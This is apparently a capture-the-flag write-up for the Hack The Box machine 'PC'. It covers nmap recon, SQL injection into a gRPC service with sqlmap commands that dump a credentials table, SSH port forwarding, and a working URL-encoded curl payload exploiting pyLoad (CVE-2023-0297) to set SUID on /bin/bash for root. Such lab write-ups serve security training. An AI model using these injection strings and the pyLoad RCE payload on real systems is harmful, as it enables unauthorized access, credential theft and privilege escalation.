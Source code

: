 ```yaml
---
title: "PC"
tags:
    - machine
    - sqli
    - suid
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/PC.png"
bookmark: true
---
```


# Description
---

<img src="/assets/img/htb/pc/Capture1.JPG" alt="pc">

# Solution
## Recon
---

Applying nmap scan

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/PC]
└─$ nmap -sV -sC -Pn -p 80,50051 -oA pc  10.10.11.214

# Nmap 7.92 scan initiated Thu Aug 17 12:37:10 2023 as: nmap -sV -sC -Pn -p- -oA pc 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.075s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.92%I=7%D=8/17%Time=64DDF8D7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 12:39:34 2023 -- 1 IP address (1 host up) scanned in 143.38 seconds

```

We got this as an output. We have an interesting service on port 50051
After searching about 50051, we will find that the service is gRPC.

## Shell as sau
---

To access its UI there’s a tool called grpcui explained <a href="https://github.com/fullstorydev/grpcui">here</a>
After installing it, we will get access to this GUI.

<img src="/assets/img/htb/pc/Capture2.JPG" alt="grpcui gui">

In the method name field we have 3 options: **Login**,**Register** and **getinfo**
Make sure that burp is opened and receiving the requests.
Let’s try registering using credentials **youssif:youssif** Then login using these credentials and you will get this response.

<img src="/assets/img/htb/pc/Capture3.JPG" alt="register">

We see that we got an id and token.
Let’s go to getinfo and use the id we got 345 => we got this msg

<img src="/assets/img/htb/pc/Capture4.JPG" alt="getinfo">

So we will add the token we got in the metadata field and we will get in the response => “message”: “Will update soon.”
We were using burp let’s go to the requests and send them to the repeater to examine them.
getinfo request is most interesting of them and id parameter is vulnerable to sqli and it can be detected using `id="345 or 1=1--` u will get a different message.
Let’s go to sqlmap and because this request method is POST so we will copy the request in text file and use it with sqlmap, for more information <a href="https://hackertarget.com/sqlmap-post-request-injection/">here</a> 
So from the previous link we knew that we will save the request in a file and use this command.

```bash
sqlmap -r request.txt -p id --tables
```

From this we knew that we have two tables accounts and messages, We are interested in Accounts table.
Anyway Let’s dump the table using this command.

```bash
sqlmap -r request.txt -p id -T accounts --dump
```

<img src="/assets/img/htb/pc/Capture5.JPG" alt="password">

in the output we will find this



passwords are plain text and the user sau seems to be out goal
Actually, IDK what is the pronounce of this name it seems like Siuuuuuuuuuuuuuuuuu

Anyway, when we use this credentials of sau in ssh we get the shell successfully
Congratzzzz we got the user's flag 

<img src="/assets/img/htb/pc/Capture6.JPG" alt="siuuuuuuuu">


## shell as root
---

Let’s move to Root part.

after some enumeration using `netstat -a` I found that `127.0.0.1:8000 in listening state`.
We will use port forwarding to be able to access it using the command

```bash
ssh -L 9001:127.0.0.1:8000 sau@10.10.11.214
```

So we can access it from firefox using the url http://127.0.0.1:9001
We will find that the process is called pyload and after enumerating the running processes using ps -ef we will find that it’s running process by the root.

After searching for exploit for pyload i found many useful articles like:
<a href="https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/?source=post_page-----e887b51cffc1--------------------------------">1</a>
<a href="https://www.exploit-db.com/exploits/51532?source=post_page-----e887b51cffc1--------------------------------">2</a>
<a href="https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad?source=post_page-----e887b51cffc1--------------------------------">3</a>

All of these are useful i used this POC for the RCE:-

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:4444/flash/addcrypted2'
```

The url encoded part:
 `%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29`
is the command i used which is `pyimport os;os.system(“chmod u+s /bin/bash”)`
Then we can execute `/bin/bash -p` using the user sau because `/bin/bash` got **SUID** permission.

<img src="/assets/img/htb/pc/Capture7.JPG" alt="rooted">

Rooted !!

I wish this writeup was useful, THANK YOU.

<img src="/assets/img/htb/pc/Capture8.JPG" alt="thanks">